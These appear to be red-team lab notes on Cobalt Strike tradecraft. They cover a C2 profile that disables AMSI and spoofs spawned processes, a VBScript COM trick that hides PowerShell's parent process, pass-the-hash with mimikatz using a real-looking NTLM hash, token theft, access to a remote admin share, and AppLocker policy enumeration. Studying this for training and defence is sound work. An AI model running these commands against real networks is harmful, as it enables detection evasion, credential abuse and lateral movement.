 #### Modify C2 

```
post-ex {
        set amsi_disable "true";

        set spawnto_x64 "%windir%\\sysnative\\dllhost.exe";
        set spawnto_x86 "%windir%\\syswow64\\dllhost.exe";
}
```

### Parent/Child Relationships

```vb
Set shellWindows = GetObject("new:9BA05972-F6A8-11CF-A442-00A0C90A8F39")
Set obj = shellWindows.Item()
obj.Document.Application.ShellExecute "powershell.exe", Null, Null, Null, 0
```

### Command Line detections

This is detected by AV

```bash
beacon> pth DEV\jking 59fc0f884922b4ce376051134c71e22c
# equal to 
sekurlsa::pth /user:"jking" /domain:"DEV" /ntlm:59fc0f884922b4ce376051134c71e22c /run:"%COMSPEC% /c echo 9c91bb58485 > \\.\pipe\34a65a"
```

```bash
#change for that
beacon> mimikatz sekurlsa::pth /user:"jking" /domain:"DEV" /ntlm:59fc0f884922b4ce376051134c71e22c /run:notepad.exe
beacon> steal_token 17896
beacon> ls \\web.dev.cyberbotic.io\c$
```

## Aplication Whitelisting

### AppLocker

As a defence, AppLocker is only as good as the defined ruleset.  Microsoft ships default rules, which are very broad and allow all executables and scripts located in the Program Files and Windows directories.

#### Policy Enumeration

```bash
beacon> powershell Get-DomainGPO -Domain dev-studio.com | ? { $_.DisplayName -like "*AppLocker*" } | select displayname, gpcfilesyspath
beacon> download \\dev-studio.com\SysVol\dev-studio.com\Policies\{7E1E1636-1A59-4C35-895B-3AEB1CA8CFC2}\Machine\Registry.pol
PS C:\Users\Administrator> Get-ChildItem "HKLM:Software\Policies\Microsoft\Windows\SrpV2"
PS C:\Users\Administrator> Get-ChildItem "HKLM:Software\Policies\Microsoft\Windows\SrpV2\Exe"
```
